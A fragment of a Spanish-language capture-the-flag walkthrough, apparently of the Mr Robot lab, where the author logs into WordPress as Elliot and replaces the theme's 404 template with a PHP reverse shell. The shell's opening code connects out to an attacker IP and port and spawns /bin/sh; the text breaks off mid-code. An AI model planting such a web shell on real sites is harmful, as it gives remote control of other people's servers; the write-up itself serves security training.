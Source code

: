 <img src="/imgs/mrRobot/mrRobot10.png"/>
* <p>Ok listo ahora tenemos la contraseña del usuario <font color="yellow">Elliot</font>, ahora solo queda iniciar session en el <font color="yellow">wp-login.php</font>.</p>
>
<img src="/imgs/mrRobot/mrRobot11.png"/>
* <p>Una vez adentro tenemos que ganar acceso por medio de una web-shell, para ello me ire a apariencia y la seccion 404. quitare todo el codigo php y lo remplazare por el siguiente</p>

```php

<?php

set_time_limit (0);
$VERSION = "1.0";
$ip = '10.18.27.215';  // CHANGE THIS
$port = 5454;       // CHANGE THIS
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;

//
// Daemonise ourself if possible to avoid zombies later
//

// pcntl_fork is hardly ever available, but will allow us to daemonise
// our php process and avoid zombies.  Worth a try...
if (function_exists('pcntl_fork')) {
	// Fork and have the parent process exit
	$pid = pcntl_fork();
```